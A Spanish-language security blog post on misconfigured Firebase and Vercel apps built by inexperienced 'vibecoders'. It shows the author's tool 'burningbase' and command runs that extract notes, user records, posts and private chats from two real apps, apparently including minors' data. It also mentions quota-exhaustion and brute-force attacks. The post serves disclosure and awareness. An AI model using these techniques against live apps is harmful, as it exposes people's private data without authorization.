






Hay un patrón muy fácil de observar en redes sociales desde hace ya mucho.

Usuarios con poca o ninguna experiencia son capaces de crear aplicaciones y desplegarlas a miles de usuarios gracias a los modelos de lenguaje. Estos usuarios las comparten orgullosos de lo que han creado en una o dos tardes. 


Son fáciles de detectar:

- Interfaz moderna y llamativa, pero con elementos visuales muy caracteristicos de estos modelos
- Animaciones excesivas, toasts en todas las acciones, sombreados en demasiados elementos
- Demasiados comentarios en el código que no aportan nada
- Emojis en logs de consola y `README.md`
- Nombres de variables y funciones demasiado descriptivos y poco humanos
- Sobreingenieria para acciones básicas
- Código muerto que no se ejecuta nunca
- Estructura de carpetas excesiva o todo en un mismo archivo
- Uso de **Firebase** para el almacenamiento de datos y autenticación de usuarios
- Despliegue en **vercel**

No hay problema en utilizar IA para crear herramientas, me parece algo muy interesante que gente fuera del sector de desarrollo de software pueda generar código, muchísima gente creativa y que conoce otros aspectos de ciertos negocios puede aportar **mucho** creando sus propias herramientas, pero en cuanto estas dejan de ser internas y están pensadas para que cientos o miles de usuarios las utilicen puede resultar peligroso.

Los problemas que vamos a ver, **no son nuevos**, la IA solo es un catalizador para algo que ya sucedía desde mucho antes, tampoco la **elección de ciertas tecnologías** es un problema en si, su implementación y configuración si.

## ¿Por qué Firebase y vercel?

Si preguntásemos a los que han desarrollado estas aplicaciones el por qué la elección de *Firebase* y *Vercel*, muy posiblemente no sabrían justificar el por qué.

Si utilizas un agente o un chatbot para desarrollar aplicaciones, y no especificas ningún tipo de arquitectura concreta, solo *que quieres que haga la app y esté funcionando*, casi siempre, va a elegir estas dos tecnologías, o unas similares, manteniendo una arquitectura *serverless*. Y es normal, está infiriendo la solución que tenga más probabilidades de funcionar con el prompt dado y que menos fricción pueda tener. Además, ambos servicios ofrecen una capa gratuita, de forma que el usuario no tendrá que tener el paso extra de gestionar el pago de nada.

## Vibecoding, la falta de foco y el efecto tunel

Esto era algo que ya pasaba previo a estos modelos.

Un desarrollador descuidado o bajo una carga excesiva de trabajo puede cambiar su criterio de *diseñar correctamente* a *esto debe funcionar ya*.

Incluso un desarrollador experimentado que este haciendo *vibecoding* puede caer en esto, entrando en un *tunel de decisiones* que solo se centran en añadir funcionalidades sin preocuparse por como estas están diseñadas.

En un usuario sin experiencia, esto se **multiplica**. Este efecto puede llevar a varios errores:

- Relajar reglas de Firestore para que no aparezcan errores
- Desactivar comprobaciones de autenticación porque "no me deja entrar"
- Guardar secretos en el propio frontend o el repositorio porque es lo más rápido
- Permisos excesivos para usuarios para evitar errores de acceso a datos

## El caso de Firebase

Firebase es interesante desde el punto de vista de un pentester. En la mayoría de casos, podemos obtener la información necesaria para conectar a los distintos servicios que ofrece directamente desde el frontend de la aplicación. No están ocultas porque **están diseñadas para usarse asi**.

La propia documentación y código que ofrece la plataforma suele ser lo que encontraremos en el código de la aplicación, nada más crear nuestra aplicación nos dan un bloque de código listo para copiar y pegar. Generalmente esta se sitúa **en el propio frontend** de la aplicación. Esto provoca que sea **muy rápido** encontrar los datos que necesitamos para empezar a interactuar con la *base de datos* o el *sistema de autenticación* del mismo como veremos más adelante.

En el caso de `firestore` solo estamos limitados por las *reglas* que el desarrollador ha creado para que podamos leer, crear, modificar o borrar datos en los servicios, y en `authentication` por los métodos disponibles para crear cuentas que se hayan implementado.

## El caso de vercel

Vercel como tal, ofrece una superficie de ataque menor que firebase, al no ser un **VPS** que gestiona el usuario, no se podrán atacar servicios adicionales como *SSH*, los certificados y TLS son gestionados por la propia plataforma, y puede escalar automáticamente según el volumen de tráfico.

Aún así presenta varios problemas que veremos en el siguiente punto.

## El problema de los limites de servicio

Tanto `Firebase` como `vercel` ofrecen una capa gratuita muy interesante para el usuario que solo quiere crear su app y olvidarse de todo lo demás.

Sin embargo, el peligro de *agotar los recursos* disponibles de esta capa gratuita está presente.

Ambas plataformas tienen mecanismos para evitarlo, pero crean varios *vectores de ataque* que debemos considerar:

Si la app descarga contenido desde múltiples *CDN* externos, vamos a poder agotar la cuota de Vercel, provocando que la página caiga por completo cuando llegue este punto.

Si podemos interactuar continuamente con firestore, podremos gastar el número de lecturas y escrituras, haciendo que gran parte de la web, y en ocasiones las funcionalidades principales de la misma terminen fallando. Da igual que la página siga en linea si nada funciona.

Incluso dentro de otro **plan de pago**, se pueden llegar a agotar los recursos, aumentar la factura recibida, degradar el rendimiento y activar mecanismos de protección que pueden afectar a la experiencia de los usuarios.

En general, estos problemas están presentes en la arquitectura **serverless**, aunque las propias plataformas tienen medidas para evitarlos, pueden ser otro vector de ataque, especialmente dentro de planes gratuitos.

## Burningbase

Después de interactuar con varias de estas aplicaciones, decidí crear una herramienta simple con `bun` y el *sdk* oficial de `Firebase` que me permitiera buscar más rápidamente errores de configuración y extraer o manipular datos de `firestore`.

Es una herramienta CLI muy sencilla que permite:

- Intentar crear una cuenta en el servicio de `authentication` de Firebase
- Extraer, crear y borrar documentos de una base de datos `firestore`, con y sin autenticación
- Ataques de fuerza bruta contra el servicio de `authentication`

Puedes descargarla desde [este repositorio](https://github.com/datadiego/burningbase).

## Casos reales

Vamos a explorar los problemas que dos aplicaciones de este tipo pueden tener al desarrollarse sin las medidas de seguridad adecuadas.

Ambas aplicaciones fueron descubiertas porque el propio creador las publicó *en redes sociales* para que la gente las usara.

No realizaremos acciones destructivas contra los datos de las aplicaciones.

Todos los datos que permitan identificar o interactuar con cualquiera de las aplicaciones han sido redactados en el post. A dia de hoy, ninguno de los desarrolladores ha vuelto a contactar para pedir ayuda ni han solucionado ninguno de los problemas presentes. Siendo especialmente sensible el último caso.

### Aplicación de notas

Un usuario publica una aplicación que funciona a modo de un canvas infinito en el que crear notas y unirlas, para crear *moodboards* y organizar ideas y proyectos.

El usuario comenta que estos se pueden compartir, pero que hay un **sistema de permisos** para evitar que puedan borrar tu trabajo.



La página está desplegada en vercel, analizando el código fuente de la página principal encontramos una etiqueta `<script>` que nos lleva a `app.js`, en esta no encontramos el objeto `firebaseConfig`, pero importa un archivo llamado `firebase-config.js`



Solo nos queda buscar las funciones `getDocs` para saber que documentos se almacenan en la aplicación, encontramos las siguientes lineas:

```js
const docRef = doc(db, "canvases", specificCanvasId);
const docSnap = await getDoc(docRef);
```

Encontramos una sola colección de documentos llamada `canvases`. Solo nos queda intentar extraer datos de la misma:

Además, analizando otra parte:

```js
// --- 5. LÓGICA DE SESIÓN Y DASHBOARD ---
onAuthStateChanged(auth, async (user) => {
    const urlParams = new URLSearchParams(window.location.search);
    const specificCanvasId = urlParams.get('canvas') || urlParams.get('user');
    clearLocalCanvas();
    if (shareSettingsContainer) shareSettingsContainer.style.display = 'none';

    if (specificCanvasId) {
        try {
            const docRef = doc(db, "canvases", specificCanvasId); const docSnap = await getDoc(docRef);
            if (docSnap.exists()) {
                const data = docSnap.data(); currentOwnerId = data.ownerId; 
                const isOwner = user && user.uid === data.ownerId; const isPubliclyEditable = data.sharingMode === 'edit';
                if (isOwner && shareModeSelect) shareModeSelect.value = data.sharingMode || 'read';
                
                if (isOwner || (user && isPubliclyEditable)) {
                    isReadOnlyMode = false; document.body.classList.remove('read-only-mode');
                    if(user) setupUserSession(user);
                    loadCanvasData(data, specificCanvasId, false);
                    if (!isOwner) { saveStatus.textContent = 'Modo Edición Colaborativa ✏️'; onSnapshot(docRef, (snapshot) => { if (snapshot.exists() && snapshot.data().updatedAt !== data.updatedAt) loadCanvasData(snapshot.data(), specificCanvasId, true); }); }
                } else {
                    isReadOnlyMode = true; document.body.classList.add('read-only-mode');
                    canvasTitleInput.readOnly = true; saveStatus.textContent = 'Conectando al lienzo en vivo...';
                    onSnapshot(docRef, (snapshot) => { if (snapshot.exists()) { loadCanvasData(snapshot.data(), specificCanvasId, true); saveStatus.textContent = 'Actualizado en vivo 🟢'; } });
                }
            } else alert("Este lienzo no existe o es privado."); 
        } catch(e) { console.error(e); }
    } else if (user) {
        isReadOnlyMode = false; document.body.classList.remove('read-only-mode');
        canvasTitleInput.readOnly = false; setupUserSession(user); loadRecentCanvasOrNew(user.uid);
    } else setupLoggedOutSession(); 
});
```

Esto solo controla como se comporta la aplicación web, **si esta es la única medida de seguridad** podremos leer **cualquier** canvas, independientemente de si son privados o públicos.

Intentamos leer directamente los documentos de `canvases`:

```bash
burningbase on  master via 🥟 v1.3.14
❯ bun index.ts -c /tmp/firebaseconfig.js -m "fetch-docs" -t canvases -o /tmp/

[+] Leyendo: canvases ... 9 documento(s)
    Guardado en: /tmp/canvases.json
```

Conseguimos extraer todas las notas de los usuarios, incluyendo imágenes y enlaces a redes sociales.



### Red social en `apk`

El usuario publicó en redes que habia desarrollado una red social para dispositivos android.

En el post, el usuario compartía un enlace a un repositorio de github, con una aplicación compilada en una `apk` para android. Compartiendo varias imagenes donde se podía ver un *clon* entre instagram y reddit. Con el fin de hacer destacar el post, añadía que *sólo con 16 años* había sido capaz de crear algo complejo y con funcionalidades avanzadas, como un servicio de mensajería y la capacidad de enviar audios entre usuarios.

Si el creador era menor seguramente el resto de personas participando en la red social también lo serían. La aplicación no estaba publicada en la store de android, pero cualquiera podía descargarla e instalarla para tener contacto con ellos, o peor aún, intentar sacar datos personales de los usuarios para extorsionarlos o acosarlos de forma privada.

Descargué el repositorio y utilicé `jadx` para decompilar la `apk`:

```bash
…/Downloads/app ✗ jadx app-debug.apk
INFO  - loading ...
INFO  - processing ...
ERROR - finished with errors, count: 68

…/Downloads/app ✗ ls
Permissions Size User      Date Modified Name
drwxr-xr-x     - datadiego  8 Jul 08:54   app-debug
.rw-r--r--   24M datadiego  6 Jul 09:26   app-debug.apk
```

Con `grep` buscamos recursivamente en todo el proyecto varios terminos posibles como `firebase`, `firestore` y finalmente encontramos algo con `project_id`:

```bash
…/app/app-debug ❯ grep -r project_id --color
sources/com/google/firebase/FirebaseOptions.java:    private static final String PROJECT_ID_RESOURCE_NAME = "project_id";
sources/com/example/socialapp/R.java:        public static int project_id = 0x7f0c00ad;
resources/res/raw/firebase_common_keep.xml:    tools:keep="@string/google_app_id,@string/gcm_defaultSenderId,@string/google_api_key,@string/firebase_database_url,@string/ga_trackingId,@string/google_storage_bucket,@string/project_id" />
resources/res/values/public.xml:    <public type="string" name="project_id" id="0x7f0c00ad" />
resources/res/values/strings.xml:    <string name="project_id">editado por privacidad del usuario</string>
```

Es posible que el resto de datos los encontremos en el mismo archivo, en `resources/res/values/strings.xml`.

Buscamos en el resto del archivo hasta dar con el resto de datos necesarios:



Ya tenemos todos los datos necesarios para empezar a usar `burningbase` contra la base de datos.

En este caso, en lugar de buscar `getDocs`, comenzamos por algo obvio:

```bash
burningbase master ❯ bun index.ts -c /tmp/test/firebaseconf.js -m "fetch-docs" -t "users" -o /tmp/test/

[+] Leyendo: users ... 13 documento(s)
    Guardado en: /tmp/test/users.json
```

A partir de esto, podemos sacar nombres de usuario, correos y avatares de usuarios.

Seguimos con otro fácil:

```bash
burningbase master ❯ bun index.ts -c /tmp/test/firebaseconf.js -m "fetch-docs" -t "posts" -o /tmp/test/

[+] Leyendo: posts ... 23 documento(s)
    Guardado en: /tmp/test/posts.json
```

Viendo las claves de los objetos en el array de `posts.json` podemos ver la cantidad de datos que se pueden sacar:

```bash
burningbase master ❯ cat /tmp/test/posts.json | jq ".[0] | keys"
[
  "authorAvatarUrl",
  "authorId",
  "authorName",
  "authorUsername",
  "commentCount",
  "contentText",
  "id",
  "imageUrl",
  "imageUrls",
  "likes",
  "mediaType",
  "pinnedCommentId",
  "sensitive",
  "shareCount",
  "tags",
  "timestamp",
  "videoUrl"
]
```

Podemos sacar múltiples imágenes:



Finalmente, extraemos chats privados entre usuarios, primero con:

```bash
burningbase master ❯ bun index.ts -c /tmp/test/firebaseconf.js -m "fetch-docs" -t "chats" -o /tmp/test/

[+] Leyendo: chats ... 6 documento(s)
    Guardado en: /tmp/test/chats.json
```

Sin embargo, por las imágenes extraídas hemos comprobado que se han mandado audios entre usuarios.

Explorando el código de la aplicación, encontramos:

```java
firebaseFirestore.collection("chats").document($chatId).collection("messages")
```

Hay una colección dentro de `chats` llamada `messages`, podemos extraer toda esa colección:

```bash
burningbase master ❯ bun index.ts -c /tmp/test/firebaseconf.js -m "fetch-docs" -t "chats/{id}/messages" -o /tmp/test/

[+] Leyendo: chats/{id}/messages ...
  Padre: chats ... 6 documento(s)
  Subcoleccion messages (dNtvLghTmmPYAELXqlGa8ROBNGC2_dNtvLghTmmPYAELXqlGa8ROBNGC2) [6/6]
  Total documentos en subcoleccion: 122
    Guardado en: /tmp/test/chats_all_messages.json
```

En los chats, además de más imágenes, encontramos audios:



Si bien la mayoría de imagenes son memes, muchas incluyen:

- Fotos que podrían revelar la zona en la que viven
- Fotos de sus cuartos
- Dibujos que pueden estar subidos a otras plataformas
- Banners de twitch a canales personales

En los contenidos de los mensajes, si bien la mayoría son simplemente probando la aplicación, hay enlaces a otras redes sociales personales.

No hay ninguna medida de seguridad, todo es accesible sin restricciones de ningún tipo.

Se avisó al creador para que **no la publicara** en la store en el estado actual y como parchear las reglas, pero a dia de hoy sigue igual.
